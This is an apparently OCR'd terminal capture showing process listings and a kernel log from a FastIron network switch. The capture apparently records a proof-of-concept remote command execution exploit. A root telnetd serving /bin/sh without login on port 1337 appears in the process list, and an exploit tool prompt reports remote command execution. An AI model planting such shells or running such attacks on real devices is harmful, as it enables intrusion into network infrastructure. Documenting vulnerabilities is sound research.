 ```
    root      2395  0.2  0.4  61028 13784 ?        SNsl 21:50   0:04 /crit_pkg/logmgrPkg/bin/logmgr_proc
    root      2422  0.2  0.0  31004  2728 ?        Ssl  21:50   0:04 /usr/local/bin/systatsd
    root      2441  1.0  1.2 118948 41176 ?        SNl  21:50   0:19 /usr/bin/python3 /crit_pkg/PluginProcessPkg/bin/plugin_proc.py
    root      2449  0.4  0.1  37380  5744 ?        Ssl  21:50   0:09 /usr/local/bin/poed
    root      2468  0.6  0.8  74832 27460 ?        Sl   21:50   0:12 /usr/bin/python3 /crit_pkg/SlamProcessPkg/bin/slam_server.py
    root      2503  0.2  0.1  43728  5092 ?        Ssl  21:50   0:04 /usr/local/bin/hmond
    root      2507  0.0  0.0  10876  2324 ?        S    21:50   0:00 /usr/local/bin/hmond
    root      2531  0.2  0.1  36340  5644 ?        Ssl  21:50   0:04 /crit_pkg/FileMgrPkg/bin/filemgr_proc RD start
    root      2532  0.2  0.1  37388  4996 ?        Ssl  21:50   0:04 /usr/local/bin/capm_daemon
    root      2534  0.0  0.0  20152   432 ?        Sl   21:50   0:00 /usr/local/bin/fw_downloader fw_downloader
    root      2559  0.2  0.3  48012 10940 ?        Ssl  21:50   0:04 /crit_pkg/DnldMgrPkg/bin/dnldmgr_proc
    root      2563  0.0  0.0   2140   100 ?        Ss   21:50   0:00 /usr/sbin/tftpd -c -l -s /var/lib/tftpboot
    root      2608  0.2  0.1  35672  5552 ?        SNl  21:50   0:04 /.pkg/supportSavePkg/bin/fi_ss_svc
    root      2614  0.0  0.0  20156   476 ?        Sl   21:50   0:00 /usr/local/bin/fw_downloader fw_downloader
    root      2712  0.2  0.3  45936 12048 ?        SNsl 21:50   0:04 /.pkg/PortProfilePkg/bin/port-profile
    root      2732  0.0  0.0   3272  2244 ttyS0    Ss+  21:50   0:00 /bin/sh /usr/local/bin/console.sh start
    root      2733 99.0 16.2 2048968 527668 ?      Ssl  21:50  30:54 //usr/local/bin/FastIron
(...)
    root      5445  0.0  0.0   2004   144 ?        Ss   21:57   0:00 /usr/sbin/telnetd -b 0::0 -p 1337 -l /bin/sh
    root      5482  0.0  0.0      0     0 ?        I    21:58   0:00 [kworker/u4:0]
    root      6198  0.0  0.0      0     0 ?        I    22:06   0:00 [kworker/u4:2]

TaoFTP [1]> shell dmesg | head
[+] MAGIC ACK for op 17 with 813 bytes.
[*] Received exec ACK pkt: seq 0, final_flag 1, payload 809 bytes.
[+] Command executed in remote (('192.168.1.57', 35374)):
    [    0.000000] Booting Linux on physical CPU 0x0
    [    0.000000] Linux version 4.14.76-19.0.0Image (swrel@l42-ub-ecbld-04) (gcc version 5.2.1 20151103 (Marvell GCC development 20151117-a53c013d)) #1 SMP PREEMPT Sun Dec 29 21:56:46 PST 2024
    [    0.000000] Boot CPU: AArch64 Processor [412fd050]
    [    0.000000] Machine model: Marvell AC5x board
    [    0.000000] Reserved memory: created DMA memory pool at 0x0000000208000000, size 64 MiB
    [    0.000000] OF: reserved mem: initialized node buffer@0x200000000, compatible id shared-dma-pool
    [    0.000000] crashkernel reserved: 0x00000002cfe00000 - 0x00000002dfe00000 (256 MB)
    [    0.000000] cma: Reserved 256 MiB at 0x00000002bfc00000
    [    0.000000] NUMA: No NUMA configuration found
    [    0.000000] NUMA: Faking a node at [mem 0x0000000000000000-0x00000002dfffffff]
```
